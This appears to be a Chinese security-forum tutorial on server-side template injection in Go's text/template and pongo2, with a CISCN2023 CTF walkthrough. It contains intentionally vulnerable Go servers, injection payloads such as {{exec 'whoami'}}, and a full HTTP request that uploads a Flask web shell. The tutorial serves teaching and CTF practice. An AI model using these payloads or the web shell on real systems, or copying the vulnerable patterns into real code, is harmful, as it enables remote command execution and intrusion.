# Go语言ssti漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/16742  
> **文章ID**: 16742

---

## 简介

SSTI 漏洞是一种通过不安全地处理模板引擎输入而导致的漏洞。攻击者利用 SSTI 漏洞，可以注入恶意代码或表达式到模板引擎中，从而在服务器上执行任意代码，或获取敏感数据。Go中常用的模板引擎如 `html/template` 和 `text/template`，如果使用不当，可能会导致 SSTI 漏洞。

## Go中的模板引擎

Go语言有两个内置的模板引擎：

1. `text/template`

* 用于生成纯文本输出。

* 更灵活，但没有自动转义功能，容易导致 SSTI。

2. `html/template`

* 用于生成HTML输出。

* 自带自动转义功能，较为安全，但仍需注意如何处理用户输入。

其他模板引擎:

1. `github.com/flosch/pongo2/v6`

* `github.com/flosch/pongo2/v6` 是一个功能强大的模板引擎库，为 Go 提供了类似于 Django 的模板语法。

## 典型环境示例

使用Go内置模板引擎，分别展示两个不同的模板利用环境示例

第一个为完全不安全的模板使用示例存在xss、ssti导致的rce漏洞风险

```
package main

import (
    "fmt"
    "net/http"
    "os/exec"
    "text/template"
)

type User struct {
    Id     int
    Name   string
    Passwd string
}

func (u *User) Gogo(cmd string) string {
    // 执行系统命令，模拟RCE漏洞
    out, err := exec.Command(cmd).Output()
    if err != nil {
        return err.Error()
    }
    return string(out)
}

func sstiHandler(w http.ResponseWriter, r *http.Request) {
    // 解析用户输入
    userInput := r.URL.Query().Get("input")
    user := &User{1, "LtmThink", "123456"}
    // 动态构造 HTML，直接插入用户输入
    htmlContent := fmt.Sprintf(`This is ssti! %s`, userInput)
    tmpl := template.New("ssti")
    tmpl.Funcs(template.FuncMap{
        "exec": func(command string) string {
            // 执行系统命令，模拟RCE漏洞
            out, err := exec.Command(command).Output()
            if err != nil {
                return err.Error()
            }
            return string(out)
        },
    })
    tmpl, err := tmpl.Parse(htmlContent)
    if err != nil {
        http.Error(w, "Error parsing template", http.StatusInternalServerError)
        return
    }
    // 执行模板并将结果输出
    err = tmpl.Execute(w, user)
    if err != nil {
        http.Error(w, "Error executing template", http.StatusInternalServerError)
        return
    }
}

func main() {
    http.HandleFunc("/", sstiHandler)
    // 启动服务器
    fmt.Println("Server is running on http://127.0.0.1:8080")
    http.ListenAndServe(":8080", nil)
}
```

第二个虽然正确使用了模板引擎，但由于模板渲染输入未正确过滤，还是存在xss漏洞

```
package main

import (
    "fmt"
    "net/http"
    "text/template"
)

func sstiHandler(w http.ResponseWriter, r *http.Request) {
    // 解析用户输入
    userInput := r.URL.Query().Get("input")
    tmpl := template.New("ssti")
    tmpl, err := tmpl.Parse("{{.}}")
    if err != nil {
        http.Error(w, "Error parsing template", http.StatusInternalServerError)
        return
    }
    // 执行模板并将结果输出
    err = tmpl.Execute(w, userInput)
    if err != nil {
        http.Error(w, "Error executing template", http.StatusInternalServerError)
        return
    }
}

func main() {
    http.HandleFunc("/", sstiHandler)
    // 启动服务器
    fmt.Println("Server is running on http://127.0.0.1:8080")
    http.ListenAndServe(":8080", nil)
}
```

## 典型环境漏洞分析

### 敏感信息泄露

第一个环境存在信息泄露漏洞，通过使用类似`{{.Name}}`的模板注入语句我们可以获取到User类的属性



### XSS漏洞

两个环境都存在XSS漏洞，针对第二个环境我们输入`<script>alert('xss')</script>`即可触发xss

​


解决的方法也很简单，将`text/template`替换成`html/template`即可得到安全的使用



当然这种解决方法只适用于环境2，对于存在ssti漏洞的环境1无效。

### RCE等其他漏洞

go内置语言模板注入想要达成RCE漏洞等其他漏洞，需要满足以下条件中的任意一条

* 模板初始化时添加的parseFuncs存在触发RCE的方法
* 模板Execute时添加的data参数所属的类中存在触发RCE的方法

#### 针对第一种情况

在环境1的示例代码中我们可以看到如下的添加自定义parseFuncs的代码，其中存在rce相关代码时通过Funcs方法添加的



调用Funcs方法后在`go/src/html/template/template.go:186`中我们就可以看到parseFuncs中存在的我们自定义的exec方法了



同时`text/template`还提供了一些内置的方法，我们进入后面的`builtins()`就可以看到



当然并没有可以直接利用的方法。

针对`text/template`我们可以使用如下的模板语法调用这些带参调用这些方法`{{exec "whoami"}}`。

​

具体为什么这么解析可以看到`go/src/text/template/parse/lex.go`其中有详细的定义与解析



调用内置方法`print`



调用自定义的rce方法`{{exec "whoami"}}`



#### 针对第二种情况

在环境1中我们可以看到在执行模板时是将user变量作为data传入的Execute方法中的


而在User类中存在rce方法Gogo



我们可以使用如下的模板语法来调用到Gogo方法

`{{.Gogo "calc"}}`



`Gogo`作为传入data所属类的内置方法，其最终是在`/go/src/text/template/exec.go`的`evalField`方法中得到调用

这个方法的功能就是在传入的data所属的类中寻找属性和方法所有以`.`开头的调用传入类方法的都是通过这个类进行处理的



和前面相呼应，在lex.go中以.开头的就是field



总结一下如果模板执行时传入的data所属的类中有恶意方法则可以通过`{{.恶意方法 "参数1" "参数2"}}`进行调用

​


## 其他模板引擎漏洞分析

`github.com/flosch/pongo2/v6`模板引擎漏洞其实和go内置模板引擎漏洞类似，但是模板语法不同

以CISCN2023的go\_session赛题为例，赛题精简过后的代码如下只保留和ssti相关代码，我们的目标是通过ssti漏洞实现rce等其他高危害效果

```
package main

import (
    "github.com/flosch/pongo2/v6"
    "github.com/gin-gonic/gin"
    "html"
    "net/http"
)

func Admin(c *gin.Context) {
    name := c.DefaultQuery("name", "ssti")
    xssWaf := html.EscapeString(name)
    tpl, err := pongo2.FromString("Hello " + xssWaf + "!")
    if err != nil {
        panic(err)
    }
    out, err := tpl.Execute(pongo2.Context{"c": c})
    if err != nil {
        http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
        return
    }
    c.String(200, out)
}
func main() {
    r := gin.Default()
    r.GET("/admin", Admin)
    r.Run("0.0.0.0:80")
}

```

我们看到`out, err := tpl.Execute(pongo2.Context{"c": c})`这句代码，按照上文所说想要触发rce或者其他高危害漏洞就要从传入的c所属的`gin.Context`类中寻找可利用方法



题解最终是利用到了`gin.Context`的`FormFile`和`SaveUploadedFile`实现了任意文件的写入


同时由于存在对于一些字符的过滤所以不能直接传入


所以同时又使用了`gin.Context`中属性`Request`所属类的`UserAgent()`方法，通过请求头中的`User-Agent`传参的方式绕过过滤



最终payload如下

```
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.UserAgent()),c.Request.UserAgent())}} HTTP/1.1
Host: localhost
Content-Length: 613
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: server.py
Connection: close

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="server.py"; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryrxtSm5i2S6anueQi--
```



成功写入文件



pong2的模板语法与go内置的模板有比较大的不同



可以到<https://pkg.go.dev/github.com/flosch/pongo2/v6@v6.0.0#Context查看使用示例>

## 参考链接

<https://ctf.njupt.edu.cn/archives/898#go_session>

<https://pkg.go.dev/github.com/flosch/pongo2/v6@v6.0.0>

<https://xz.aliyun.com/t/15566>

<https://pkg.go.dev/text/template>
